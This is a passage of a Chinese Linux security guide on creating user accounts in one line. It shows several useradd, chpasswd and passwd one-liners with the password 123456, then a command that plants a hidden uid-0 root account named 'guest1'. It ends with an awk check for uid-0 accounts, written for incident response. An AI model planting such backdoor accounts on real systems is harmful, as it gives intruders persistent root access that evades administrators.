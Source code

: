 ### 2.2 一句话添加用户和密码   
添加普通用户的方法：   
```bash
 # 创建一个用户名guest，密码123456的普通用户 
 useradd -p `openssl passwd -1 -salt 'salt' 123456` guest 
 # useradd -p 方法 ` ` 是用来存放可执行的系统命令,"$()"也可以存放命令执行语句 
 useradd -p "$(openssl passwd -1 123456)" guest 
 # chpasswd方法 
 useradd guest;echo 'guest:123456'|chpasswd 
 # echo -e方法 
 useradd test;echo -e "123456\n123456\n" |passwd test
```
![Alt text](image-113.png)   
创建用户名为 `guest1` 的 `root`用户。   
```bash
 useradd -p `openssl passwd -1 -salt 'salt' 123456` guest1 -o -u 0 -g root -G root -s /bin/bash -d /home/test
```
![Alt text](image-114.png)   
切换`guest1`用户，`whoami` 查看结果为`root`。   
![Alt text](image-115.png)   
排查技巧：   
```bash
 # 查询特权用户，特权用户(uid 为0) 
 [root@localhost ~]# awk -F: '$3==0{print $1}' /etc/passwd 
 # 查询可以远程登录的账号信息 
```